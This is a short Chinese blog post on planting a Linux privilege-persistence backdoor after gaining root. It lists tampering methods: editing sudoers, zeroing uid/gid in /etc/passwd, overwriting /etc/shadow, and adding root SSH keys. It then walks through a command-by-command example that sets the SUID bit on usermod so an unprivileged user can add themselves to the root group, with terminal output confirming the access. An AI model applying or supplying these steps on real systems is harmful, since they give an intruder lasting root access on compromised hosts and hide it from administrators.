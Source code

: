 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["后门", "权限"]
title = "Linux之USID后门"
topics = ["Linux"]

+++

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制：

***

## 为二进制文件添加s权限从而提升为root权限方法：
1. 写sudoers添加用户  `//最佳方案`  
2. vim /etc/passwd    `//将uid和gid改为0`
3. vim /etc/shadow    `//密文覆盖`  
4. vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

***

## SUID:这个东西主要是留后门

#### 在root权限下给usermod一个s权限：

    # which usermod   //得到usermod的路径                             
    /usr/sbin/usermod
    # chmod u+s /usr/sbin/usermod
    # ls -l /usr/sbin/usermod
    -rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### usermod给其他人一个x权限：
    [root@localhost ~]# chmod o+x /usr/sbin/usermod
    [root@localhost ~]# ls -l /usr/sbin/usermod
    -rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### 切换到普通用户wyb：
```
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=500(wyb) groups=500(wyb)
	[wyb@localhost ~]$ usermod -g root wyb
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=0(root) groups=0(root)
	[wyb@localhost ~]$ exit
```

#### 验证：	
	重新用wyb连接，此时即为root权限
	[wyb@localhost ~]$ cd /root  //若能切换到此目录即证明确实获得了root权限
    [wyb@localhost root]$ ls
    anaconda-ks.cfg  install.log  install.log.syslog